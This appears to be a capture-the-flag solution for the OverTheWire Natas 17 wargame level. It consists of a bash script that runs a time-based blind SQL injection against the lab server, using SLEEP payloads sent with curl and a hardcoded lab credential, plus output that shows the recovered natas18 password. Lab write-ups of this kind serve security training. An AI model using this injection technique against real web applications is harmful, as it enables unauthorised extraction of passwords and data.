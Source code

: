 ```bash
passwordlenght=32
CurrentChar=0
password=""
sleeptime=10
while [ $CurrentChar -ne $passwordlenght ]
do
    for letter in {{a..z},{A..Z},{0..9}}; do
        injection="\" AND IF(password LIKE BINARY \"$password$letter%\", SLEEP($sleeptime), 0) #"
        data="username=natas18$injection"
        curl_output=$(curl -o /dev/null -s  'http://natas17.natas.labs.overthewire.org/index.php' -H 'Authorization: Basic bmF0YXMxNzo4UHMzSDBHV2JuNXJkOVM3R21BZGdRTmRraFBrcTljdw==' -d "$data" -w %{time_total})
        time=$(echo $curl_output | cut -d "." -f 1)
        if [ $time -ge 10 ]; then
            password="${password}${letter}"
            CurrentChar=$(( $CurrentChar + 1 ))
            MIDCounter=$(( $MIDCounter + 1 ))
            echo "[+] Password: $password"
            continue 2
        fi
    done
done
```

```text
+] Password: x
[+] Password: xv
[+] Password: xvK
[+] Password: xvKI
[+] Password: xvKIq
[+] Password: xvKIqD
[+] Password: xvKIqDj
[+] Password: xvKIqDjy
[+] Password: xvKIqDjy4
[+] Password: xvKIqDjy4O
[+] Password: xvKIqDjy4OP
[+] Password: xvKIqDjy4OPv
[+] Password: xvKIqDjy4OPv7
[+] Password: xvKIqDjy4OPv7w
[+] Password: xvKIqDjy4OPv7wC
[+] Password: xvKIqDjy4OPv7wCR
[+] Password: xvKIqDjy4OPv7wCRg
[+] Password: xvKIqDjy4OPv7wCRgD
[+] Password: xvKIqDjy4OPv7wCRgDl
[+] Password: xvKIqDjy4OPv7wCRgDlm
[+] Password: xvKIqDjy4OPv7wCRgDlmj
[+] Password: xvKIqDjy4OPv7wCRgDlmj0
[+] Password: xvKIqDjy4OPv7wCRgDlmj0p
[+] Password: xvKIqDjy4OPv7wCRgDlmj0pF
[+] Password: xvKIqDjy4OPv7wCRgDlmj0pFs
[+] Password: xvKIqDjy4OPv7wCRgDlmj0pFsC
[+] Password: xvKIqDjy4OPv7wCRgDlmj0pFsCs
[+] Password: xvKIqDjy4OPv7wCRgDlmj0pFsCsD
[+] Password: xvKIqDjy4OPv7wCRgDlmj0pFsCsDj
[+] Password: xvKIqDjy4OPv7wCRgDlmj0pFsCsDjh
[+] Password: xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhd
[+] Password: xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP
```
